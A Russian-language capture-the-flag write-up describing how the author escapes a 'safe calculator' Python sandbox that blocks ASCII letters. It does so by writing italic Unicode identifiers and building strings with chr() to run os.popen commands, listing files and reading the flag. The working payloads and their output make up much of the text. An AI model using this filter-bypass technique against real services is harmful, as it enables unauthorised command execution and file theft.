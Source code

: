 # Безопасный калькулятор: Write-up #
Как и прошлый калькулятор, открываем этот через `netcat`:

    $ nc 62.173.140.174 10001

![](writeup/calc.jpg)

В отличие от прошлого калькулятора, в этом заблокировали все `ascii-letters`, что проверяется довольно просто:

    >>> print
    HACK ATTEMPTED!!!
[Здесь](https://theasciicode.com.ar/) можно посмотреть, что заблокировано: 65-90 и 97-122 символы.
Честно говоря, долго я возился на этом моменте, в основном пытался скормить октальные символы (aka `\123\131\111` и т.п.). Хотелось воспользоваться хинтом, но сначала он мне казался полностью лишённым смысла:
> Думаю тебе стоит спросить у Итальянцев о том, как они пишут код)))

Интернет выдавал лишь это:

![](writeup/meme.jpg)

А потом допёрло: `"итальянский код" == "italian code" ≈≈ "italic code" == "курсивный код"`. Воспользовавшись [генератором](https://capitalizemytitle.com/italic-text-generator/), попробовал следующее:

    >>>𝘱𝘳𝘪𝘯𝘵
    <built-in function print>

![](writeup/lapenko.jpg)

Осталось дело за малым - сформировать пэйлоад:
    
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__("𝘰𝘴").𝘱𝘰𝘱𝘦𝘯("𝘭𝘴").𝘳𝘦𝘢𝘥()
    No module named '𝘰𝘴'
А вот тут загвоздка: мы можем вызывать функции, но не можем писать строки, они будут курсивные (нехорошие). Так что придётся каждый символ писать через функцию `chr()`, так что "os" == chr(111)+chr(115). То же и с командой. Так что ввод будет следующим:
    
    # __import__("os").popen("ls").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)).𝘳𝘦𝘢𝘥()
    flag.txt
    requirements.txt
    service.py

Читаем флаг (ох уж эта посимвольная пытка):

    # __import__("os").popen("cat flag.txt").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(99)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(116)+" "+𝘤𝘩𝘳(102)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(103)+"."+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(120)+𝘤𝘩𝘳(116)).𝘳𝘦𝘢𝘥()
    CODEBY{************}

P.S. Как и в калькуляторе, тем же способом сдампил [service.py](writeup/service.py), смотрите на здоровье))
